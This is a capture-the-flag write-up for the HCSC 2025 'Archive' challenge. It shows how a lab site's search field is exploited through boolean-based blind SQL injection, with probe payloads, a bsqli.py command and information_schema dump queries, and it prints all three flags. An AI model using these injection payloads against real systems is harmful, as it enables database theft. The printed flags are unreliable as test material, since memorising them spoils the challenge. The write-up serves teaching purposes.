




# HCSC 2025 - Archive

## Description

Flag 1: Ever searched an archive, only to find the one file you need... gone? Not all documents are meant to be read here — but with some patience, hidden things may come to light.

Flag 2: I have been in places many times before, one thing I know: always there's a private section... but private doesn't always mean unreachable.

Flag 3: Sometimes it happens that you've been looking in the right place. But maybe the right place is the wrong shelf.

Flag format: `HCSC{...}`

`10.10.1-9.10:24587`

## Metadata

- Filename: -
- Tags: `boolean-based blind sql injection`
- Points: 150, 200, 300
- Number of solvers: 40, 37, 39

## Solution

There were 3 flag in the same web service and the solution technique was also the same.

The website has a seach field where we can search for records.



We can try some basic SQL injection attacks and from the server responses we can concur that it is vulnerable to a *boolean-based blind SQL injection*:
- The response is `Record found` if the query returns any records (`' and 1=1 #`).
- The response is `No record found` if the query returns no records (`' and 1=0 #`).
- The response is empty if the query fails (`' and 1=`).







Here we have to options, we can write our own custom script to leak to whole database character by character using binary search, or we can try to find a generic tool which can do the same.

Luckily there is one: `bsqli.py` - <https://github.com/TrebledJ/bsqli.py>

We can specify the true, false and error conditions and basically everything we need (we can only use 1 thread, because there was a rate-limit feature on the server):

```bash
python bsqli.py \
    -u 'http://10.10.3.10:24587/documents.php?doc={payload}' \
    -X GET \
    --payload $'\' AND {cond} #' \
    --dbms MySQL \
    -bftc "No record found" \
    -betn "found" \
    --timeout 10 \
    -t 1 \
    -d 2 \
    -v
```

Now we got into a shell, where we can run queries for example (read the docs):

```
sqli> t
table> information_schema.tables
```

This will dump all the table names in the database.

For us the interesting tables are: `documents` and `flag_x4tz7uj7`

Now we can use our own queries based on the tables names. It is important to highlight that the queries should result in one string for the script to work (`group_concat`).

```
sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='documents'
sqli> SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='flag'
```

And finally to get all three flags

```
sqli> SELECT group_concat(flag) FROM flag_x4tz7uj7
HCSC{R1GHT_UND3R_Y0UR_N0S3}
```

```
sqli> SELECT group_concat(flag) FROM documents
HCSC{TH1S_W4S_N0T_S0_H4RD...},HCSC{...BUT_D1D_Y0U_3XP3CT_TH1S?}
```

- Flag 1: `HCSC{TH1S_W4S_N0T_S0_H4RD...}`
- Flag 2: `HCSC{...BUT_D1D_Y0U_3XP3CT_TH1S?}`
- Flag 3: `HCSC{R1GHT_UND3R_Y0UR_N0S3}`